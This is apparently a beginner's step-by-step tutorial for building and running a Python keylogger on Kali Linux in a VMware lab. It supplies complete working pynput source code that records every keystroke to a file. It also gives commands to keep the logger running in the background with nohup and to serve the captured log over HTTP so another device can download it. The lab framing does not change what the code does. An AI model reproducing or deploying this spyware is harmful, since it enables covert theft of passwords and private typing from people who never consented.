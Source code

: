 Project Title: Key logger using Python on Kali Linux

Project Goal
To build and run a Python-based keylogger on Kali Linux inside a VMware environment, log all keystrokes, and export the data via HTTP server.

Step-1 Open VMware Workstation, start Kali Linux, and update the system (optional but recommended for best performance and security).

Comment - (sudo apt update && sudo apt upgrade -y)

sudo – Runs the command as a superuser (with admin rights).

apt – The package manager used in Kali Linux and other Debian-based systems.

update – Refreshes the list of available packages and their versions from the internet.

&& – Runs the next command only if the previous one is successful.

upgrade – Installs the latest versions of the packages already on your system.

-y – Automatically says "yes" to all prompts during the upgrade.

STEP 2 Install the pynput library, which is used to monitor and record keystrokes in Python.

Install pynput - (pip3 install pynput)

pynput is a Python library used to control and monitor input devices like the keyboard and mouse. It's commonly used in projects like keyloggers, automation scripts, or accessibility tools.

To check if pynput is installed on your Kali Linux system.

open the terminal and type (python3) to enter the Python shell. 

Once inside, type (import pynput). If no error appears, it means the library is already installed.

You can then exit the Python shell by typing (exit()).

However, if you see an error saying that the module is not found, it means pynput is not installed. 

In that case, install the library by running the command (pip3 install pynput) in the terminal. 
If you receive a "command not found" error for pip3, it means pip is not installed on your system. 
To fix this, install pip by running (sudo apt install python3-pip -y).

pip stands for "Pip Installs Packages",  Python 3 (most common in Kali)

To check if pip3 is installed on your system.

Run the command (pip3 --version) in the terminal. If pip is installed, it will display the installed version.

However, if pip is not installed, you will see an error message saying: "Command 'pip3' not found".

In that case, you can install it by running the command - (sudo apt install python3-pip -y).

Pip - It is the package manager for Python that allows you to install libraries from the internet, uninstall ones you no longer need, upgrade existing libraries to their latest versions, and handle dependencies automatically, making Python development easier and more organized.

Step-3 Open your Kali Linux home directory, create a file called keylogger.py using the Nano editor, and paste the code inside.

from pynput import keyboard

def on_press(key):
    try:
        with open("keylog.txt", "a") as f:
            f.write(f"{key.char}\n")
    except AttributeError:
        with open("keylog.txt", "a") as f:
            f.write(f"{key}\n")

with keyboard.Listener(on_press=on_press) as listener:
    listener.join()

Press Ctrl + O → Enter (to save)
Press Ctrl + X (to exit)

Step-4 Run the script in the terminal using the command. It will now log all keystrokes to keylog.txt in the same folder.

Commant - (python3 keylogger.py)

Step-5 Open another terminal or any application and type some text for example, in a text editor or directly in the terminal. Once you've typed some input, go back to the terminal where you initially ran the script. To stop the script, press Ctrl + C.

Check the log file: (cat keylog.txt) You’ll see the logged keystrokes.

Step-6 To run the script without keeping the terminal open, use the following command

Commant - (nohup python3 keylogger.py &)

nohup → keeps the program running even if you close the terminal. (Stands for no hangup).

python3 keylogger.py → runs your script with Python 3.

& → runs it in the background so you can still use the terminal.

This will keep the script running in the background, even after the terminal is closed.

Step-7 File Transfer Using Python HTTP Server

What is Python HTTP Server?
Python has a built-in feature that allows you to turn any folder into a web server. That means you can,Share files from that folder over the network and Download them using a web browser from another device. This method is useful when you want to download files (like your keylogger log file) from your Kali Linux VM to another device (like your Windows host machine) without USB or SSH.

If you are working in a local lab environment, you can share the file via HTTP.

Command-(python3 -m http.server 8080). 

python3 → runs Python version 3.

-m http.server → tells Python to start a small built-in web server.

8080 → the port number where the server will run (you can change it).

“Start a simple web server on port 8080 using Python.”

You can then open your browser and go to another device on the network -> Open browser -> Go to: http://<kali_ip>:8080/keylog.txt

(You can get your Kali IP using ifconfig or ip a)

Step-8 To find running process:

Use this comment (ps aux | grep keylogger.py)

ps aux “Please list all the programs that are currently running on the computer.”

ps = process status

a = show processes for all users

u = show the user who started the process and extra details

x = include programs not started from a terminal

This alone will give you a big list of everything running.

| (pipe symbol)

The | takes the output from the first command (ps aux) and sends it directly into another command.
Think of it like a conveyor belt: whatever comes out of the first machine goes into the second machine.

grep keylogger.py

grep is a search tool.

Here, it’s searching for the text keylogger.py in the big list of programs.

It will only show the lines that match this text.

Look for something like: kali     94403  ... python3 keylogger.py

To stop this running process comment - (kill 94403) (Replace 94403 with whatever PID your system shows).
